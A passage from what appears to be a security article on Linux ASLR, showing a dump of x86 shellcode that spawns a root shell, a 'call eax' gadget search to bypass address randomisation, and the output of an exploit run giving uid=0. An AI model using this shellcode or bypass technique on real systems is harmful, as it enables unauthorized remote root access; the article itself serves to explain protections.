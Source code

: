 ```bash
0xbf999b10: 0x90 0x90 0x90 0x90 0x90 0x31 0xc0 0x31
0xbf999b18: 0xdb 0x31 0xc9 0xb0 0x46 0xcd 0x80 0x31
0xbf999b20: 0xc0 0x50 0x68 0x2f 0x2f 0x73 0x68 0x68
0xbf999b28: 0x2f 0x62 0x69 0x6e 0x89 0xe3 0x8d 0x54
0xbf999b30: 0x24 0x08 0x50 0x53 0x8d 0x0c 0x24 0xb0
0xbf999b38: 0x0b 0xcd 0x80 0x31 0xc0 0xb0 0x01 0xcd
0xbf999b40: 0x80 0xbf 0xa7 0xf3
```

The 0x90 bytes are the NOPs, mostly used to reduce the heuristic necessary for exploiting a buffer overflow (we could have done without them in this case of exploitation). Incidentally, note the 0xCD80 OPCODEs (in bold above) which represent the call to the execution interrupt to give us a shell on the remote machine (int $0x80).

The exploitation principle is then very clear: we must make the machine execute the equivalent of a jmp %eax or call %eax that will jump directly to our shellcode.

By performing a search in the process memory, thanks to the opcode finder that we developed for the occasion, we find an address (in a fixed addressing area this time) containing the OPCODEs of the "call EAX" instruction:

```bash
# ./memory_dumper 080484b0 0804A4b0 10497 output
Found at 0x8048c03
```

Since the EAX register points to our buffer (which contains a valid shellcode), the bypass is then performed:

```bash
# ./exploit localhost 8000 0
Using align value 0
Trying "call eax" compliant address: 0x08048c03

Linux lapt41p 2.6.16 #3 PREEMPT i686 GNU/Linux
uid=0(root) gid=0(root) groups=0(root)

#
```

More technical information about ASLR is available at the following addresses:

[Lwn.net](https://lwn.net/Articles/121845/)

[Searchopensource.techtarget.com](https://searchopensource.techtarget.com/tip/1,289483,sid39_gci1144658,00.html)

[Metasploit msg 00735](https://www.metasploit.com/archive/framework/msg00735.html)

[Metasploit msg 00736](https://www.metasploit.com/archive/framework/msg00736.html)

Other protections, located in userland via the libc library, allow among other things to protect against exploitations in the heap via the unlink method. They are complementary to an ASLR usage and will not be described in this article.

## GrSecurity and PaX
